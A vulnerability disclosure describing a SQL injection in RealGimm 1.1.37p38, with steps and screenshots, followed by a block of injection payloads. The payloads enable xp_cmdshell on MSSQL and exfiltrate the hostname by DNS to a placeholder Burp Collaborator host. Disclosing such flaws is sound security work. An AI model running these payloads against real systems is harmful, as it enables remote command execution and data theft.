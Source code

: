 # CVE-ID | RealGimm by GruppoSCAI - SQL Injection

A SQL Injection vunerability was found in RealGimm version 1.1.37p38. This vulnerability eventually lead to full database access and remote command execution via xp_cmdshell. What follows is a description of the steps taken to perform the exploit.

## Proof of Concept
First of all, the application performs an input sanitization operation at front-end level. Therefore, in Burp Proxy, disable the Javascript validation applied by application so that we can insert any malicious character inside the forms.

![Disabling JS in Burp](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/9e0a6646-0ea5-4009-b963-8fdb19c269f8)

After that, we access the function in which the vulnerability is present by clicking on *Sistema ->  Scheduler -> Log ObjectTrace* and we insert a single quote inside the "Data Richiesta Dal" field:

![Single quote insertion](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/a4466e0a-3750-4c93-98b3-de061b4d4488)


After starting the search by pressing the magnifying glass icon, we can see that the application returns an error indicating the presence of an error in the syntax of the SQL query used, thus indicating the presence of a SQL Injection vulnerability:

![SQL Error](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/c6e03f6c-ed26-4a5b-954c-4ed65f9ea407)


Below the intercepted requests and responses:

![Request and response 1](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/cbd7fa8c-a351-458f-91a7-2e2249f57ae4)

![Request and response 2](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/b21e04d3-a6aa-42f3-afe5-07b2c2af7e93)


Using sqlmap we therefore obtain the banner together with all the available databases:

![Banner extraction](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/bba5ed73-e4cc-4108-980c-b26121af8d5f)

![Databases extractio](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/b499aa3d-ec54-4720-a068-ef3fed26827c)


Finally, it is possible to achieve code execution on the host where the mssql server is running by enabling and taking advantage of xp_cmdshell. To do this, execute the following instructions one at a time:

```
') EXEC sp_configure 'show advanced options', 1;--

') RECONFIGURE;--

') EXEC sp_configure 'xp_cmdshell', 1;--

') RECONFIGURE;--

')EXEC xp_cmdshell 'for /F "tokens=1" %i in (''hostname'') do nslookup %i.[burp_collaborator_URL].oastify.com';--

```

![Remote code execution](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/baeb01de-f523-4995-834c-f47df297b336)


As seen above, it is possible run any command on the underlaying host and exfiltrate data via the DNS protocol.
